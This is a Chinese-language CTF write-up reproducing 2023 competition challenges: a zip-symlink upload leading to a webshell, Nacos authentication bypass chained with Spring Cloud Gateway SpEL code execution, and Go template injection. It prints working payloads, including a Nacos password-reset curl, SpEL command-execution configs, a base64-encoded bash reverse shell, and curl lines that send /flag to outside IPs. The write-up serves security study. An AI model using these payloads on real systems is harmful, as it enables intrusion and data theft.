# 2023国赛初赛题目复现学习 - 先知社区

2023国赛初赛题目复现学习

- - -

## unzip

登录进去之后发现是一个文件上传的题目，查看源码

```plain
<?php
error_reporting(0);
highlight_file(__FILE__);

$finfo = finfo_open(FILEINFO_MIME_TYPE);
//创建了一个文件信息对象finfo，用于获取文件的MIME类型信息。FILEINFO_MIME_TYPE是一个常量，表示获取MIME类型。
if (finfo_file($finfo,$_FILES["file"]["temp_name"]) === 'application/zip'){
    exec('cd /tmp && unzip -o' . $_FILES["file"]["tmp_name"]);
    //检查文件的MIME类型。如果上传的文件是ZIP文件（MIME类型为application/zip），则将其解压缩到服务器的/tmp目录，并且覆盖原文件。
};
```

此题上传的文件被保存到了/tmp目录下，而且没有require和include这种文件包含的点，因此无法直接执行上传文件里面的代码，因此这里考虑利用软连接，进行目录穿越，将文件上传到任意目录

> **软连接**是linux中一个常用命令， 它的功能是为某一个文件在另外一个位置建立一个同步的链接。软连接类似与c语言中的指针，传递的是文件的地址； 更形象一些，软连接类似于WINDOWS系统中的快捷方式。 例如，在a文件夹下存在一个文件hello，如果在b文件夹下也需要访问hello文件，那么一个做法就是把hello复制到b文件夹下，另一个做法就是在b文件夹下建立hello的软连接。通过软连接，就不需要复制文件了，相当于文件只有一份，但在两个文件夹下都可以访问。

可以考虑软连接进行目录穿越的几个特征：

-   有文件上传接口，但是上传文件的目录不能确定
-   可以上传zip文件并且会将文件解压到上传目录下
-   可以getshell的文件可以绕过waf成功上传

此题符合几个特征，因此可以尝试此方法

解题：

创建构造一个指向`/var/www/html`的软连接

> 因为html目录下是web环境，为了后续可以getshell

```plain
┌──(root㉿kali)-[~/桌面]
└─# ln -s /var/www/html/ link
```

打包到到1.zip，对link文件进行压缩。

```plain
┌──(root㉿kali)-[~/桌面]
└─# zip --symlinks 1.zip link
```

> `zip --symlinks`，是在zip压缩文件中，包含符号链接本身，而不是它们指向的实际文件或目录，也就是说当解压缩这个zip文件，将得到符号链接，而不是它们指向的实际文件。

接着构造第二个压缩包2.zip

创建一个link目录(因为上一个压缩包里边目录就是link)，在link目录下写一个shell.php文件，文件中写入木马文件，这里先写入phpinfo()进行测试

```plain
┌──(root㉿kali)-[~/桌面]
└─# rm link
┌──(root㉿kali)-[~/桌面]
└─# mkdir link
┌──(root㉿kali)-[~/桌面]
└─# cd link 
┌──(root㉿kali)-[~/桌面/link]
└─# echo "<?php phpinfo();" > shell.php
┌──(root㉿kali)-[~/桌面/link]
└─# cd ../
┌──(root㉿kali)-[~/桌面]
└─# zip -r 2.zip link
```

我们将1.zip 和2.zip 依次 上传，压缩包会被解压到tmp目录下，但是当我们上传第二个压缩包时会覆盖上一个link目录，但是link目录软链接指向`/var/www/html`解压的时候会把`shell.php`放在`/var/www/html`下，此时我们就达到了getsehll的目的。

接着直接访问根目录下的shell.php，即可直接通过system命令实现RCE

- - -

## Nacos漏洞

**一、前置知识**

**1.1 Spring Cloud Gateway**

Spring Cloud Gateway是一个基于Spring Framework的轻量级API网关服务，它提供了一种简单而灵活的方式来构建和管理微服务架构中的路由、负载均衡、安全性和监控等功能。简单理解为一个具有丰富功能的微服务网关，它可以拦截客户端的请求，然后根据`predicates`（断言）来为该请求分配合适的后端应用。

例如当用户请求`http://192.168.1.1:80/app`时，网关可以配置将其转发到APP应用服务器`http://192.168.2.2:8080/app`上，又或者使用`Filter`拦截器，为请求增加某些内容或者为服务器响应增加某些内容

**1.2 `nacos`**

`Nacos`可以理解为一个统一管理的配置注册中心，配置了`nacos`后，项目中的配置文件便可以通过`Nacos`来动态修改。应用通过注册到`` `Nacos ``中，然后绑定组和`dataID`的形式，来绑定`Nacos`上创建的动态配置文件，当`Nacos`上所绑定的配置文件发布了新版时，应用将从`Nacos`中自动同步新的配置，大大增加了灵活性

**二、Nacos 漏洞利用**

**1、获取已有的用户列表的账号和密码**

在路径后面加上`/nacos/v1/auth/users?pageNo=1&pageSize=9`可以获取到已有的用户名和密码

> 本次复现的漏洞环境是ctfshow中的，所以路径可能有些不一样

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118155257-7d2472c0-85e7-1.png)

**2、任意用户添加**

更改提交方式为`POST` , 访问`/nacos/v1/auth/users?username=admin&password=passwd`

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118155325-8d7e808e-85e7-1.png)

新建一个账号admin1，密码passwd , 可以看到创建用户成功

使用该账号可以发现登录成功，如图

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118155340-9652e52e-85e7-1.png)

**3、任意用户删除**

更改提交方式为`DELETE` , 访问`DELETE /nacos/v1/auth/users?username=admin1`

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118155353-9e66d75c-85e7-1.png)

可以看到用户删除成功

**4、用户密码重置**

更改提交方式为`PUT,`访问 `PUT /nacos/v1/auth/users?accessToken=&username=admin&newPassword=passwd`

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118155407-a69f2c76-85e7-1.png)

**5、配置信息泄露**

在路径后面加上：`nacos/v1/cs/configs?search=accurate&dataId=&group=&pageNo=1&pageSize=99`

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118155421-aeba247e-85e7-1.png)

**三、Nacos结合Spring Cloud Gateway RCE利用**

**1、漏洞回顾**

该漏洞在网上公开POC的利用方式是通过`/actuator/gateway/routes`这个节点进行动态添加路由的，当项目配置文件中配置了以下两行配置时（YAML格式），便会开启该接口：

```plain
management.endpoint.gateway.enabled: true
management.endpoints.web.exposure.include: gateway
```

在项目Service-provider的配置文件bootstrap.yml中，配置了连接Nacos的关键项：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118155459-c58f332e-85e7-1.png)

其中`spring.cloud.nacos.config`下

-   name代表的是要在nacos中创建的配置文件的DataID。
-   file-extension则是nacos中所创建的配置文件的格式。
-   group则代表nacos中配置文件对应的组。
-   而server-addr则是nacos的访问地址

其中发送的添加路由的数据包中的数据段如下：

```plain
{
  "id": "test",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {"name": "Result","value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"}
  }],
"uri": "http://example.com",
"order": 0
}
```

先理解一下这段POC的含义：

-   id字段代表的是路由的ID标识
    
-   filters则是Spring Cloud Gateway中路由配置的过滤器：
    
    这里指定了过滤器`AddResponseHeader`，含义为对匹配到的请求的响应包中添加一个自定义的Header，其中名称为 Result，值为该漏洞利用的`SpEL`表达式，执行了命令`id`。
    
    也就是说当一个请求匹配到该路由时，返回包中应该会存在一个Header返回了我们定义的键值，利用成功的话会得到：`result: uid=0(root) gid=0（... ...）`
    

但POC中并未定义路由的匹配规则，因为开启actuator/gateway的话只需要刷新一下路由然后直接查看路由配置就可以得到命令执行的回显了

**2、利用方式**

如果拿到了一个Nacos权限，如何进行有效的信息收集以及利用？

以上面搭建的环境为例，我们搭建了一个Nacos，一个Spring Cloud Gateway网关，以及一个微服务Service-provider，

进入到nacos管理页面，翻阅配置时候发现有Spring Cloud Gateway相关的配置，那么第一步可以先查看该配置项都有哪些服务器在监听？监听的服务器基本可以肯定就是运行了Spring Cloud Gateway的服务器，可以在配置文件的更多中点击**监听查询**：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118155514-ce96b76c-85e7-1.png)

然后就可以看到监听该配置文件的服务器IP了：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118155523-d3bde1ca-85e7-1.png)

但是发现看不到端口，除了可以通过扫描端口的方式来识别应用所在端口，或者这时候也可以去尝试一下查看服务管理中的服务

> 因为如前文所述，Spring Cloud Gateway要实现通过服务名的方式来访问微服务应用，则需要先把自己注册到服务中

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118155617-f3d8c0f6-85e7-1.png)

可以看服务名来识别应用的类型，点击详情后也可以看到服务具体的IP以及端口，

> 这里IP变成192.168.163.174是因为它绑定到了一个网卡，正常来说应该还是127.0.0.1，也就是说在真实环境里面他是一个内网IP，是跟前面监听查询中得到的IP是同一个的，如果你是在虚拟机部署的，那么就会正常显示同一个内网IP。

如果应用注册到了服务中的话，那么通过服务详情里的IP，再对比上面监听查询中的IP，就可以定位到监听某个配置文件的应用的具体端口了。

> 上述的方法就是如何去找到一个配置文件对应的应用的IP及端口，在攻防中如果打进了内网，发现Nacos的时候，就可以用这个方法定位内网中的其他应用

接下来就是如果找到了Spring Cloud Gateway应用以及它的Nacos配置文件，如何利用CVE-2022-22947来进行攻击。

回到之前的配置文件**gateway**，如果发现应用未开启Actuator，则结合前文所说的利用响应包增加Header的方式回显，将配置在Nacos中进行修改，改为以下内容：

```plain
spring:
  cloud:
    gateway:
      routes:
        - id: exam
          order: 0
          uri: lb://service-provider
          predicates:
            - Path=/echo/**
          filters:
            - name: AddResponseHeader
              args:
                name: result
                value: "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{'id'}).getInputStream())).replaceAll('\n','').replaceAll('\r','')}"
```

这里增加了一个filters字段，并写入POC，但这里需要注意的坑有两点：

1.  需要修改原POC，将字符串输入结果使用replace()将\\n以及\\r符号替换为空，否则会提示报错Header中不能包含该字符导致利用失败
2.  在YAML配置文件中，SpEL表达式必须要用双引号括起来，但POC原本就带有双引号，会导致识别冲突，所以将POC内所有的双引号改为单引号，外面在用双引号括起来

完成后对配置文件进行发布，然后尝试访问`http://127.0.0.1:8888/echo/123`，可以发现成功回显了命令执行的结果

**四、国赛Backend-service题目复现**

（所用的是ctfshow提供的环境，payload可能有些不同）

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118155636-ff4817ac-85e7-1.png)

首先的问题就是如何进入nacos后台

1、利用上文所给出的利用bp实现用户密码重置

2、利用用UA绕过鉴权的那个改nacos用户的密码可进入nacos后台

```plain
curl -X PUT 'http://IP:PORT/nacos/v1/auth/users?accessToken=' -H 'User-Agent:Nacos-Server' -d 'username=nacos&newPassword=root'
```

将给的jar包放到jad，看题目给的附件来代码审计，根据上文的讲解，可以去查找`bootstrap.yml`文件来分析。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118155650-07925c92-85e8-1.png)

发现了backendservice的DataID值：backcfg

综合现在得到的信息，下一步就该在nacos配置中心里面新建一个这样的配置让后台服务调用，且必须是json格式的。

根据上文，构造出**json**格式的payload

```plain
{
    "spring": {
        "cloud": {
            "gateway": {
                "routes": [{
                        "id": "aaa",
                        "order": 0,
                        "uri": "lb://backendservice",
                        "predicates": [
                            "Path=/test/**"],
                        "filters": [{
                                "name": "AddResponseHeader",
                                "args": {
                                    "name": "result",
                                    "value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(\"bash -c {echo,YmFzaCAtaSAmPiAvZGV2L3RjcC8xMTguODkuMTAxLjU2LzY2NjYgMDwmMQ==}|{base64,-d}|{bash,-i}\").getInputStream())).replaceAll('\n','').replaceAll('\r','')}"
                                }
                            }
                        ]
                    }
                ]
            }
        }
    }
}
```

重点payload点在这里，通过其反弹shell，达到任意命令执行

```plain
exec(\"bash -c {echo,YmFzaCAtaSAmPiAvZGV2L3RjcC8xMTguODkuMTAxLjU2LzY2NjYgMDwmMQ==}|{base64,-d}|{bash,-i}\")
```

这段代码是一个使用bash反弹shell的命令，它使用了base64编码来隐藏命令内容。

-   `bash -c`，你可以在命令行中指定一个命令或命令字符串，并要求bash解释器执行它。
    
-   `YmFzaCAtaSAmPiAvZGV2L3RjcC8xMTguODkuMTAxLjU2LzY2NjYgMDwmMQ==`：
    
    ```plain
    bash -i &> /dev/tcp/XXX.XX.XX.XX/6666 0<&1
    ```
    
    -   `bash -i`：这是执行一个交互式的Bash Shell的命令。
    -   `&>`：这是I/O重定向的语法，将标准输出和标准错误输出都重定向到后面指定的位置。
    -   `/dev/tcp/XXX.XX.XX.XX/6666`：这是一个特殊的文件路径，它表示网络套接字。具体来说，`/dev/tcp`是Linux中的一个虚拟文件系统，可以用来进行网络通信。
    -   `0<&1`：这是另一个I/O重定向，将标准输入（文件描述符0）指向标准输出（文件描述符1），这样就可以实现输入和输出的重定向。
    
    综合起来，这段代码的作用是创建一个反向连接，将Bash Shell与远程主机上的某个端口进行连接。它将标准输入、标准输出和标准错误输出重定向到网络套接字，从而实现与远程主机的交互式Shell会话。
    
-   `base64,-d`：这是一个base64解码器的命令，它会将base64编码的字符串转换回原始内容。
    
-   `bash,-i`：这是执行一个交互式的bash shell的命令。
    

综合起来，这段代码的作用是将经过base64编码的命令进行解码，并在本地机器上执行一个交互式的bash shell。也就是说，它试图建立一个反向连接，使得攻击者可以通过该连接与目标机器进行交互并执行命令。

接着用自己的VPS连接，命令执行即可

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118155708-12910f30-85e8-1.png)

其他可行payload

```plain
exec(newString[]{'bash'-c','sh -i>& /dev/tcp/ip/端口 0>&1'})
```

```plain
exec(new String[]{'curl','81.70.16.8:8888','-d','@/flag'})
exec(new String[]{'curl','http://47.113.202.32:23233','-T','/flag'})
```

参考：

[https://xz.aliyun.com/t/12568](https://xz.aliyun.com/t/12568)  
[http://www.syrr.cn/news/7874.html](http://www.syrr.cn/news/7874.html)

- - -

## go\_session

#### **一、知识前置**

**简单介绍：**

其他像Python、PHP环境下的模板注入一样，Go语言下的模板注入也是因为未使用 Go 中渲染模板的预期方式来利用，用户传入的数据直接传递到了能够被模板执行的位置，导致了一系列的安全问题。

##### （一）go语言基础

首先结合菜鸟教程先来学习一下go语言的基本语法，简单熟悉一下go的语言：

```plain
package main
import "fmt"
func main(){//需要注意的是 { 不能单独放在一行，所以以下代码在运行时会产生错误：
  fmt.Println("Hello,World!")
}
```

> -   第一行代码 package main 定义了包名。你必须在源文件中非注释的第一行指明这个文件属于哪个包，如：package main。package main表示一个可独立执行的程序，每个 Go 应用程序都包含一个名为 main 的包。
>     
> -   下一行 import "fmt" 告诉 Go 编译器这个程序需要使用 fmt 包（的函数，或其他元素），fmt 包实现了格式化 IO（输入/输出）的函数。
>     
> -   下一行 func main() 是程序开始执行的函数。main 函数是每一个可执行程序所必须包含的，一般来说都是在启动后第一个执行的函数（如果有 init() 函数则会先执行该函数）。
> -   下一行 fmt.Println(...) 可以将字符串输出到控制台，并在最后自动增加换行字符 \\n。使用 fmt.Print("hello, world\\n") 可以得到相同的结果。
> -   Print 和 Println 这两个函数也支持使用变量，如：fmt.Println(arr)。如果没有特别指定，它们会以默认的打印格式将变量 arr 输出到控制台。

当标识符（包括常量、变量、类型、函数名、结构字段等等）以一个大写字母开头，如：Group1，那么使用这种形式的标识符的对象就可以被外部包的代码所使用（客户端程序需要先导入这个包），这被称为导出（像面向对象语言中的 public）；标识符如果以小写字母开头，则对包外是不可见的，但是他们在整个包的内部是可见并且可用的（像面向对象语言中的 protected ）。

**Go 标记：**

Go 程序可以由多个标记组成，可以是关键字，标识符，常量，字符串，符号。如以下 GO 语句由 6 个标记组成：

**格式化字符串**

Go 语言中使用 **fmt.Sprintf** 或 **fmt.Printf** 格式化字符串并赋值给新串：

-   **Sprintf** 根据**格式化参数生成格式化的字符串**并返回该字符串。
-   **Printf** 根据**格式化参数生成格式化的字符串**并写入标准输出。
    
    **变量声明：**
    
-   第一种，指定变量类型，如果没有初始化，则变量默认为零值。
    

```plain
var v_name v_type
v_name = value
```

1.  第二种，根据值自行判定变量类型。

```plain
var v_name = value
```

1.  第三种，使用 :=\\ 声明变量，(如果变量已经使用 var 声明过了，再使用 :=\\ 声明变量，就产生编译错误)

```plain
intVal := 1 // 
相当于：
var intVal int 
intVal =1
```

**Go 语言常量**

常量是一个简单值的标识符，在程序运行时，不会被修改的量。

常量中的数据类型只可以是布尔型、数字型（整数型、浮点型和复数）和字符串型。

常量的定义格式：

```plain
const identifier [type] = value
```

可以省略类型说明符 \[type\]，因为编译器可以根据变量的值来推断其类型。

-   显式类型定义： `const b string = "abc"`
-   隐式类型定义： `const b = "abc"`

多个相同类型的声明可以简写为：

```plain
const c_name1, c_name2 = value1, value2
```

**循环语句：**

语法:

Go 语言的 For 循环有 3 种形式，只有其中的一种使用分号。

和 C 语言的 for 一样：

```plain
for init; condition; post { }
```

和 C 的 while 一样：

```plain
for condition { }
```

和 C 的 for(;;) 一样：

```plain
for { }
```

-   init： 一般为赋值表达式，给控制变量赋初值；
-   condition： 关系表达式或逻辑表达式，循环控制条件；
-   post： 一般为赋值表达式，给控制变量增量或减量。

for语句执行过程如下：

-   1、先对表达式 1 赋初值；
-   2、判别赋值表达式 init 是否满足给定条件，若其值为真，满足循环条件，则执行循环体内语句，然后执行 post，进入第二次循环，再判别 condition；否则判断 condition 的值为假，不满足条件，就终止for循环，执行循环体外语句。

for 循环的 range 格式可以对 slice、map、数组、字符串等进行迭代循环。格式如下：

```plain
for key, value := range oldMap {
    newMap[key] = value
}
```

以上代码中的 key 和 value 是可以省略。

如果只想读取 key，格式如下：

```plain
for key := range oldMap
```

或者这样：

```plain
for key, _ := range oldMap
```

如果只想读取 value，格式如下：

```plain
for _, value := range oldMap
package main
import "fmt"

func main() {
  strings := []string{"google", "runoob"}
  for i, s := range strings {
   fmt.Println(i, s)
  }


  numbers := [6]int{1, 2, 3, 5}
  for i,x:= range numbers {
   fmt.Printf("第 %d 位 x 的值 = %d\n", i,x)
  } 
}
```

以上实例运行输出结果为:

```plain
0 google
1 runoob
第 0 位 x 的值 = 1
第 1 位 x 的值 = 2
第 2 位 x 的值 = 3
第 3 位 x 的值 = 5
第 4 位 x 的值 = 0
第 5 位 x 的值 = 0
```

**实例:**

```plain
package main
import "fmt"

func main() {
  map1 := make(map[int]float32)
  map1[1] = 1.0
  map1[2] = 2.0
  map1[3] = 3.0
  map1[4] = 4.0

  // 读取 key 和 value
  for key, value := range map1 {
   fmt.Printf("key is: %d - value is: %f\n", key, value)
  }

  // 读取 key
  for key := range map1 {
   fmt.Printf("key is: %d\n", key)
  }

  // 读取 value
  for _, value := range map1 {
   fmt.Printf("value is: %f\n", value)
  }
}
key is: 4 - value is: 4.000000
key is: 1 - value is: 1.000000
key is: 2 - value is: 2.000000
key is: 3 - value is: 3.000000
key is: 1
key is: 2
key is: 3
key is: 4
value is: 1.000000
value is: 2.000000
value is: 3.000000
value is: 4.000000
```

**漏洞成因：**

Python中例如Flask，Mako以及php中的Smarty等等，都是没有正常使用渲染模板从而导致的能执行相应格式的代码而造成的注入，所以go也是同样的一种逻辑，也是因为没能够规范使用模板渲染，而导致代码能够被直接执行。

**Go的模板引擎：**

GO语言提供了两个模板包，一个是 [html/template](https://xz.aliyun.com/t/html/template)，另一个是 [text/template](https://xz.aliyun.com/t/text/template) 模块

`text/template`和`html/template`的主要区别就在于对于特殊字符的转义与转义函数的不同，但其原理基本一致，均是动静态内容结合，这两个模板也有不同，例如，在 text/template 中，您可以使用`call`值直接调用任何公共函数，但是在 html/template 中则不是这种情况；text/template 包对 XSS 或任何类型的 HTML 编码没有任何保护，第二个包 html/template 增加了 HTML 编码等安全保护。

**html/template模块：**

[https://pkg.go.dev/html/template](https://pkg.go.dev/html/template)

在html模块中是这样介绍的，这个模板包用于处理安全的HTML输出，防止XSS这样的代码注入，也就是说，HTML 模板将数据值视为纯文本，应对其进行编码，以便可以安全地嵌入 HTML 文档中。当用户输入的是html形式的时候，就应该以html/template来进行处理而不是text/template，举个例子来说：

```plain
import "text/template" 
... 
t, err := template.New("foo").Parse(`{{define "T"}}你好，{{.}}！{{end}}`) 
err = t.ExecuteTemplate(out, "T", "<script>alert('你已被攻击')</script>")
```

-   重点代码在两个地方：

```plain
{{define "T"}}你好，{{.}}！{{end}}
```

-   这里define了一个T，和两个模板处理的方式一样，将输入的数据值定义为一个纯文本，然后{{.}}是我们用户进行输入的东西：

```plain
err = t.ExecuteTemplate(out, "T", "<script>alert('你已被攻击')</script>")
```

-   这里就让用户输入一个纯文本信息

```plain
<script>alert('你已被攻击')</script>
```

-   但是因为使用的是text类型的模板包，他会直接输出：

```plain
Hello, <script>alert('you have been pwned')</script>!
```

-   然而当我们import引用的是html形式的时候，他就会输出：从而防止恶意的代码进行注入：

```plain
Hello, &lt;script&gt;alert(&#39;you have been pwned&#39;)&lt;/script&gt;!
```

-   而之所以html包能够实现这样的操作，是这个原因：
    
-   该包理解 HTML、CSS、JavaScript 和 URI。它为每个简单的操作管道添加了清理功能，因此给出了摘录
    

```plain
<a href="/search?q={{.}}">{{.}}</a>
```

-   在解析时，每个 {{.}} 都会被覆盖，以根据需要添加转义函数。在这种情况下就变成了

```plain
<a href="/search?q={{.| urlescaper | attrescaper}}">{{. | htmlescaper}}</a>
```

-   其中 urlescaper、attrescaper 和 htmlescaper 是内部转义函数的别名。对于这些内部转义函数，如果操作管道计算结果为 nil 接口值，则会将其视为空字符串。

模板演示

**text/template**

```plain
package main

import (
    "net/http"
    "text/template"
)

type User struct {
    ID       int
    Name  string
    Email    string
    Phone string
}

func StringTpl2Exam(w http.ResponseWriter, r *http.Request) {
    user := &User{1,"@nd5_NT1w", "test@example.com", "156xxxxxxxx"}
    r.ParseForm()
    tpl := `<h1>Hi, {{ .Name }}</h1><br>Your phone is {{ .Phone }}`
    data := map[string]string{
        "Name":  user.Name,
        "Phone": user.Phone,
    }
    html := template.Must(template.New("login").Parse(tpl))
    html.Execute(w, data)
}

func main() {
    server := http.Server{
        Addr: "127.0.0.1:8888",
    }
    http.HandleFunc("/login", StringTpl2Exam)
    server.ListenAndServe()
}
```

struct是定义了的一个结构体，在go中，是通过**结构体**来类比一个对象，因此他的字段就是一个对象的属性，在该实例中

```plain
模板内容 <h1>Hi, {{ .Name }}</h1><br>Your phone is {{ .phone }}
期待输出 <h1>Hi, @nd5_NT1w</h1><br>Your phone is 156xxxxxxxx
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118155919-60cd6e64-85e8-1.png)

可以看得出来，当传入参数可控时，就会经过动态内容生成不同的内容，而我们又可以知道，go模板是提供字符串打印功能的，我们就有机会实现xss，更改代码

```plain
func StringTpl2Exam(w http.ResponseWriter, r *http.Request) {
    user := &User{1, "@nd5_NT1w", "test@example.com", "156xxxxxxxx"}
    r.ParseForm()
    tpl := `<h1>Hi, {{"<script>alert(/xss/)</script>"}}</h1><br>Your Phone is {{ .Phone }}`
    data := map[string]string{
        "Name":  user.Name,
        "Phone": user.Phone,
    }
    html := template.Must(template.New("login").Parse(tpl))
    html.Execute(w, data)
}
```

```plain
模板内容`<h1>Hi, {{"<script>alert(/xss/)</script>"}}</h1><br>Your Phone is {{ .Phone }}`
期待输出 <h1>Hi, {{"<script>alert(/xss/)</script>"}}</h1><br>Your Phone is 156xxxxxxxx
实际输出 弹出 /xss/
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118155948-71ba6de4-85e8-1.png)

这里就是text/template和html/template的最大不同了

**html/template**

同样的例子，但是把导入的模板包变成html/template

```plain
package main

import (
    "net/http"
    "html/template"
)

type User struct {
    ID    int
    Name  string
    Email string
    Phone string
}

func StringTpl2Exam(w http.ResponseWriter, r *http.Request) {
    user := &User{1, "@nd5_NT1w", "test@example.com", "156xxxxxxxx"}
    r.ParseForm()
    tpl := `<h1>Hi, {{"<script>alert(/xss/)</script>"}}</h1><br>Your Phone is {{ .Phone }}`
    data := map[string]string{
        "Name":  user.Name,
        "Phone": user.Phone,
    }
    html := template.Must(template.New("login").Parse(tpl))
    html.Execute(w, data)
}

func main() {
    server := http.Server{
        Addr: "127.0.0.1:8888",
    }
    http.HandleFunc("/login", StringTpl2Exam)
    server.ListenAndServe()
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118160024-8735473e-85e8-1.png)

可以看到，xss语句已经被转义实体化了，因此对于html/template来说，传入的script和js都会被转义，很好地防范了xss，而通过html/template包等，go提供了诸如Parse、ParseFiles、Execute等方法可以从字符串或者文件加载模板然后注入数据形成最终要显示的结果，`html/template` 包会做一些编码来帮助防止代码注入，而且这种编码方式是上下文相关的，这意味着它可以发生在 HTML、CSS、JavaScript 甚至 URL 中，模板库将确定如何正确编码文本

text/template也提供了内置函数html来转义特殊字符，除此之外还有js，也存在`template.HTMLEscapeString`等转义函数

## **template常用基本语法**

在`{{}}`内的操作称之为pipeline

```plain
{{.}} 表示当前对象，如user对象

{{.FieldName}} 表示对象的某个字段

{{range …}}{{end}} go中for…range语法类似，循环

{{with …}}{{end}} 当前对象的值，上下文

{{if …}}{{else}}{{end}} go中的if-else语法类似，条件选择

{{xxx | xxx}} 左边的输出作为右边的输入

{{template "navbar"}} 引入子模版
```

- - -

**识别方法**：与其他SSTI识别方法不同，在go中检测 SSTI 并不像发送 {{7\*7}} 并在源代码中检查 49 那么简单，运算符在`{{}}`中是非法的，因此需要使用其他的payload，需要浏览文档以查找仅 Go 原生模板中的行为，最常见的就是占位符`.`。（如果存在SSTI，那么应当无回显。）

> 在template中，点"."代表当前作用域的当前对象，它类似于java/c++的this关键字，类似于perl/python的self

**漏洞利用的方法：**

我们看一个代码示例，代码的解释为了方便观看我以注释的形式写在里面了，刚开始熟悉go，顺便连着读代码……:(

```plain
package main
//这里引用了包，里面包括我们一开始学习到的fmt，以及用于网络服务的http，最重要的就是text/template模板包是这个代码存在漏洞点的关键。
import (
    "fmt"
    "net/http"
    "strings"
    "text/template"//这里就采用了text模板包
)
//进行了全局定义
type User struct {
    Id     int
    Name   string
    Passwd string
}

func StringTplExam(w http.ResponseWriter, r *http.Request) {
    user := &User{1, "admin", "@nd5_NT1w "}
    r.ParseForm()//这里通过r.ParseForm()方法用户提交的表单，将其解析为一个键值对的形式，存储在r.PostForm 中。
    arg := strings.Join(r.PostForm["name"], "")//用户输入的地方，进行post传参
    tpl1 := fmt.Sprintf(`<h1>Hi, ` + arg + `</h1> Your name is ` + arg + `!`)//使用Sprintf，将数据进行拼接以后返回纯文本再赋值给tpl1；
    html, err := template.New("login").Parse(tpl1)//进行模板渲染
    //这里创建一个名为 "login" 的模板，并将模板字符串 tpl1 解析到该模板中。template.New()函数作用是创建一个新的模板，Parse()是用于解析模板字符串。
    html = template.Must(html, err)
    html.Execute(w, user)
}

func main() {
    server := http.Server{
        Addr: "127.0.0.1:8080",
    }
    http.HandleFunc("/login", StringTplExam)
    server.ListenAndServe()
}
```

**漏洞点1 - 信息泄露：**

因为我们在这里使用了模板`&User`，所以会通过`{{.Passwd}}`模板使用 user 的 属性，就会导致信息泄露

```plain
type User struct {
    Id     int
    Name   string
    Passwd string
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118160118-a7cb3ddc-85e8-1.png)

还可以直接利用`{{ . }}` 这种形式来返回全部的模板中的内容，在我们的例子中是 user 结构。这可以被认为是其他模板引擎中的 {{ self }} 的等价物。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118160137-b2a33494-85e8-1.png)

**漏洞点2 ：**

go语言中ssti的rce执行其实也是其他语言ssti一样，都是通过危险方法的调用，来实现rce，模板内部并不存在可以RCE的函数，（除非有人为渲染对象定义了RCE或文件读取的方法，不然这个问题是不存在的。）

参考文章：[https://www.onsecurity.io/blog/go-ssti-method-research/](https://www.onsecurity.io/blog/go-ssti-method-research/)

比如，我们在代码中引入`"os/exec"`并添加一个危险函数：

```plain
func (u User) Secret(test string) string {
    out, _ := exec.Command(test).CombinedOutput()
    return string(out)
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118160348-0123c5ac-85e9-1.png)

这些危险函数的利用其实就是在审计的过程中发现了一个可以进行任意文件读取的方法，并且存在模板注入的点，导致了文件信息的泄露，我们简化一下，引入`"io/ioutil"`包

```plain
import("io/ioutil")
func (u *User)FileRead(File string) string {
    data,err := ioutil.ReadFile(File)
    if err != nil {
        fmt.Print( "File read error" )
    }
    return string(data)
}
```

接下来就用和上面一样的调用方式就可以进行文件读取了

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118160405-0b1e60d0-85e9-1.png)

还可以进行`{{printf "%s"}}`格式的输出，`{{html "ssti"}}`, `{{js "ssti"}}` 实现的也是如上效果，实际上直接`{{"ssti"}}`也可以

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118160426-17b76238-85e9-1.png)

**漏洞点3 - XSS：**

我们在刚才熟悉html模板包的时候就知道，可以对XSS进行防御，那么我们不使用的时候我们就来尝试一下能不能进行XSS攻击：

借助Go模板提供的字符串打印功能，可以直接输出XSS语句，上面修改的的防御方法也无法阻挡弹窗的脚步

```plain
{{"<script>alert(/xss/)</script>"}}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118160454-28613eba-85e9-1.png)

**防御：**

**防御1 - 信息泄露：**

```plain
func StringTpl2Exam(w http.ResponseWriter, r *http.Request) {
    user := &User{1, "tyskill", "tyskill"}
    r.ParseForm()
    arg := strings.Join(r.PostForm["name"], "")
    tpl := `<h1>Hi, {{ .arg }}</h1><br>Your name is {{ .Name }}`
    data := map[string]string{
        "arg":  arg,
        "Name": user.Name,
    }
    html := template.Must(template.New("login").Parse(tpl))
    html.Execute(w, data)
}
```

这里是根据`sp4`师傅借鉴的tyskill师傅文章对应的防御代码

防御点解析:

1.  模板中使用 `{{ .arg }}` 和 `{{ .Name }}` 来引用变量。可以防止直接将用户输入的内容作为字符串插入到模板中，模板引擎会对这些变量进行合适的转义。
2.  创建了一个名为 `data` 的 `map`，用于存储模板中需要的数据。在这个 `map` 中，键名与模板中的变量名相对应，键值则为相应的数据。这样可以避免直接将用户输入的值作为变量名，减少了可能的安全风险

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118160522-393afcc6-85e9-1.png)

**防御2 - XSS：**

1、Go模板包`text/template`提供内置函数html来进行转义，除此之外还提供了js函数转义js代码。

```plain
{{html "<script>alert(/xss/)</script>"}}
{{js "js代码"}}
```

